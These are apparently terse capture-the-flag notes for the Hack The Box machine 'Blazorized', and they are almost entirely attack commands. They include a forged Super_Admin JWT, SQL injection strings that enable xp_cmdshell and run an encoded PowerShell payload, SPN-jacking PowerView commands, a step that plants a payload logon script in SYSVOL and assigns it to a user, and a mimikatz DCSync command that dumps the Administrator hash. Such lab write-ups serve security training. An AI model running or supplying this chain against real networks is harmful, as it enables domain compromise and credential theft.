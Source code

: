# Blazorized

JWT:

{

  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "superadmin@blazorized.htb",
  
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Super_Admin",
  
  "iss": "http://api.blazorized.htb",
  
  "aud": "http://admin.blazorized.htb",
  
  "exp": 1740000000
  
}


Inject:

www'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- -

www'; exec master..xp_cmdshell 'powershell#3base64';-- -


SPN Jacking

https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking

https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/

Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='xx/xx'}

Get-DomainSPNTicket -SPN xx/xx


Login bat:

'powershell #3 base64 payload'| Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\shell.bat -Encoding ASCII


Set ScriptPath:

Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\shell.bat'


Get NTLM Hash:

lsadump::dcsync /domain:blazorized.htb /user:Administrator
